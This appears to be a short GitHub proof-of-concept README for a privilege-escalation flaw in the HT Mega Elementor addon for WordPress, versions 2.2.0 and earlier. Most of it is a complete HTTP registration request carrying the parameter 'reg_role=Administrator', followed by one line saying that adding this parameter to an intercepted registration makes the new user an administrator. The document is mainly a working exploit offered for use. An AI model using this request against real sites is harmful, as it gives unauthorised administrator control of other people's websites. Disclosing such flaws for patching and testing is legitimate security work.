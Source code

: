 # ht-mega
"HT Mega – Absolute Addons for Elementor &lt;= 2.2.0 - Missing Authorization to Privilege Escalation"

Requires registration to be enabled.

Proof of Concept
---
```
POST /my-account/ HTTP/2
Host: wordpress.lan
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 165
Origin: http://wordpress.lan
Referer: http://wordpress.lan/my-account/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=robbie@wordpress.lan&password=testest123%21&woocommerce-register-nonce=bfg37lz911&_wp_http_referer=%2Fmy-account%2F&register=Register&reg_role=Administrator
```

Intercept the registion and then just add `reg_role=Administrator` on the end and your now admin
